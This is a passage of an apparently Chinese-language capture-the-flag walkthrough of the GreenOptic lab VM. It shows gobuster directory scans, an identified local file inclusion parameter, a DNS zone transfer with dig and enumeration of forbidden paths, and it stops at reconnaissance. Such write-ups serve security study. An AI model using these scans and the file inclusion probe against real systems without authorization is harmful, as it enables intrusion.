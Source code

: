 ```
┌──(kali㉿kali)-[~/Documents/tools]
└─$ ./gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.102
/img                  (Status: 301) [Size: 234] [--> http://192.168.56.102/img/]
/account              (Status: 301) [Size: 238] [--> http://192.168.56.102/account/]
```

#### 访问该目录，url 直接为 http://192.168.56.102/account/index.php?include=cookiewarning，尝试发现 url 中存在本地文件包含。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQRHRpSsvtOHeoYHhIRAC3eoLAibCC8zF8MWuicoIOloKeeTz5rCahN6NkdLHrsvpXwWQz4gl1nck52Q/640?wx_fmt=jpeg)

由于系统是 centos7，默认 apache 的配置 log 为 / etc/httpd/logs/access_log，/etc/httpd/logs/error_log，但是都无法读取。又试了其它一些常见的 log 都无法读取。尝试读取 / etc/hostname，得到主机名为 websrv01.greenoptic.vm，猜测 apache 设置了域名访问限制，结合服务器开启了 dns 解析服务，这里使用 dig 获取域 greenoptic.vm 下的所有域名。

```
┌──(kali㉿kali)-[~]
└─$ dig @192.168.56.102 greenoptic.vm axfr

; <<>> DiG 9.16.8-Debian <<>> @192.168.56.102 greenoptic.vm axfr
; (1 server found)
;; global options: +cmd
greenoptic.vm.          3600    IN      SOA     websrv01.greenoptic.vm. root.greenoptic.vm. 1594567384 3600 600 1209600 3600
greenoptic.vm.          3600    IN      NS      ns1.greenoptic.vm.
ns1.greenoptic.vm.      3600    IN      A       127.0.0.1
recoveryplan.greenoptic.vm. 3600 IN     A       127.0.0.1
websrv01.greenoptic.vm. 3600    IN      A       127.0.0.1
greenoptic.vm.          3600    IN      SOA     websrv01.greenoptic.vm. root.greenoptic.vm. 1594567384 3600 600 1209600 3600
;; Query time: 0 msec
;; SERVER: 192.168.56.102#53(192.168.56.102)
;; WHEN: Tue Nov 24 07:37:44 EST 2020
;; XFR size: 6 records (messages 1, bytes 235)
```

得到了另一个域名，设置 hosts 后访问。发现需要 basicauth。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQRHRpSsvtOHeoYHhIRAC3eocUth6xiar1bcYOeSanicTiaODPias968F4rXGOF6UydniaicjKb58nuzibWKQ/640?wx_fmt=jpeg)

在常用弱口令破解失效后，这里使用 gobuster 跑受限访问文件，加载 common.txt。

```
┌──(kali㉿kali)-[~/Documents/tools]
└─$ ./gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://recoveryplan.greenoptic.vm --wildcard|grep "Status: 403" 
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/cache                (Status: 403) [Size: 207]        
/cgi-bin/             (Status: 403) [Size: 210]        
/config               (Status: 403) [Size: 208]        
/files                (Status: 403) [Size: 207]        
/includes             (Status: 403) [Size: 210]        
/store                (Status: 403) [Size: 207]
```
